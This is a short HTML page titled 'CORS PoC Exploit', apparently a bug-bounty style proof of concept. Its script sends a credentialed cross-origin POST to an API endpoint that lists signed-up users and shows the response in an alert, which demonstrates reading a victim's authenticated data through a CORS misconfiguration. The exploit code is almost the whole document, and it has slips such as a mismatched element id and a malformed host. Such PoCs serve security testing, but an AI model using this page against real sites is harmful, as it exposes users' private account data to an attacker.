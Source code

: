 <html>
   <head>
      <script>
         function cors() {
            var xhttp = new XMLHttpRequest();
                xhttp.onreadystatechange = function() {
                    if (this.readyState == 4 && this.status == 200) {
                        document.getElementById("emo").innerHTML = alert(this.responseText);
            }
         };
         xhttp.open("POST", "https://elements/api-v2/signup/users/all", true);
         xhttp.withCredentials = true;
         xhttp.send();
         }
      </script>
   </head>
   <body>
      <center>
      <h2>CORS PoC Exploit </h2>
      <h3>Show full content of page</h3>
      <div id="demo">
         <button type="button" onclick="cors()">Exploit</button>
      </div>
   </body>
</html>
